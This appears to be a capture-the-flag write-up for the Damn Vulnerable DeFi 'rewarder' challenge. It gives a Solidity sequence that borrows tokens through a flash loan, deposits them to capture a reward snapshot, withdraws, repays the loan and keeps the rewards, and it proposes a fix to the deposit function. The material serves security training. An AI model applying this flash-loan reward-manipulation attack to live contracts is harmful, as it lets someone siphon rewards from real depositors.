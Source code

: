 # Challenge #5 - The rewarder

There's a pool offering rewards in tokens every 5 days for those who deposit their DVT tokens into it.

Alice, Bob, Charlie and David have already deposited some DVT tokens, and have won their rewards!

You don't have any DVT tokens. But in the upcoming round, you must claim most rewards for yourself.

Oh, by the way, rumours say a new pool has just landed on mainnet. Isn't it offering DVT tokens in flash loans?

    [See the contracts](https://github.com/tinchoabbate/damn-vulnerable-defi/tree/v2.2.0/contracts/the-rewarder)
    [Complete the challenge](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v2.2.0/test/the-rewarder/the-rewarder.challenge.js)

# Solution

To solve this challenge you need to take a flashloan, and then deposit it in the rewardPool. This will count your deposit towards the reward. After you receive the reward, you can pay back the flashloan.

```solidity
//approve
liquidityToken.approve(address(theRewardPool), amount)

//deposit
theRewardPool.deposit(amount)

//withdraw
theRewardPool.withdraw(amount)

//return the loan back
liquidityToken.transfer(address(flashLoanerPool), amount)

//send the tokens back to owner
rewardToken.transfer(owner, rewardToken.balanceOf(address(this)))
```

One way to resolve this vulnerability, is to have the snapshot happen in the deposit function, prior to the token mint.

```solidity
function deposit(uint256 amountToDeposit) external {
    require(amountToDeposit > 0, "Must deposit tokens");

    if (isNewRewardsRound()) {
        _recordSnapshot();
    }

    accToken.mint(msg.sender, amountToDeposit);

    distributeRewards();

    require(liquidityToken.transferFrom(msg.sender, address(this), amountToDeposit));
}

```
